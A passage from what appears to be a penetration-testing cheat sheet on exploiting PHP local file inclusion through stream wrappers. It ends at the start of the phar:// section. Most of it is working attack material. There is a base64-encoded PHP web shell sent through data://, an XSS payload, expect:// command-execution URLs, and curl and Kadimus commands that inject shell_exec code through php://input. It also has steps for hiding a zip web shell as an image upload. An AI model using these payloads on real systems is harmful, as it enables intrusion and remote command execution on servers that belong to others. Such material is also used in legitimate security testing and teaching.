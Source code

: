 ## Wrapper data://

The payload encoded in base64 is "`<?php system($_GET['cmd']);echo 'Shell done !'; ?>`".

```powershell
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
```

Fun fact: you can trigger an XSS and bypass the Chrome Auditor with : `http://example.com/index.php?page=data:application/x-httpd-php;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+`


## Wrapper expect://

When used in PHP or a similar application, it may allow an attacker to specify commands to execute in the system's shell, as the `expect://` wrapper can invoke shell commands as part of its input.

```powershell
http://example.com/index.php?page=expect://id
http://example.com/index.php?page=expect://ls
```


## Wrapper input://

Specify your payload in the POST parameters, this can be done with a simple `curl` command.

```powershell
curl -X POST --data "<?php echo shell_exec('id'); ?>" "https://example.com/index.php?page=php://input%00" -k -v
```

Alternatively, Kadimus has a module to automate this attack.

```powershell
./kadimus -u "https://example.com/index.php?page=php://input%00"  -C '<?php echo shell_exec("id"); ?>' -T input
```

## Wrapper zip://

1. Create an evil payload: `echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;`
2. Zip the file
  ```python
  zip payload.zip payload.php;
  mv payload.zip shell.jpg;
  rm payload.php
  ```
3. Upload the archive and access the file using the wrappers: http://example.com/index.php?page=zip://shell.jpg%23payload.php


## Wrapper phar://

### PHAR archive structure
